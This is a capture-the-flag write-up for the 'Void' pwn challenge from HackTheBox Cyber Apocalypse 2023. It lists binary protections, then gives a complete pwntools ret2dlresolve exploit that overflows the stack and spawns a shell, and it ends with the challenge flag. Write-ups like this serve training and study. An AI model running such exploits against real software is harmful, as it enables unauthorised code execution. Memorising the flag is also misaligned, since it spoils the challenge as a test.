 ```yaml
---
name: Void (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Void (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Void

## Description

> The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.

## Solution

Check file properties and binary protections.

{% code overflow="wrap" %}
```bash
file void
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=a5a29f47fbeeeff863522acff838636b57d1c213, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

{% code overflow="wrap" %}
```bash
checksec --file void
[*] '/home/crystal/Desktop/challenge/void'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
{% endcode %}

PwnTools script finds offset of 72 for RIP.

[ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) exploit works with little modification.

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe, level='warn')
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    warn('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './void'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library, can use pwninit/patchelf to patch binary
libc = ELF("glibc/libc.so.6")

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

# Start program
io = start()

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop = ROP(elf)

rop.raw('A' * offset)
rop.read(0, dlresolve.data_addr)             # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)                 # call .plt and dl-resolve() with the correct, calculated reloc_offset

io.sendline(rop.chain())
io.sendline(dlresolve.payload)                # now the read is called and we pass all the relevant structures in

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{r3s0lv3_th3_d4rkn355}`

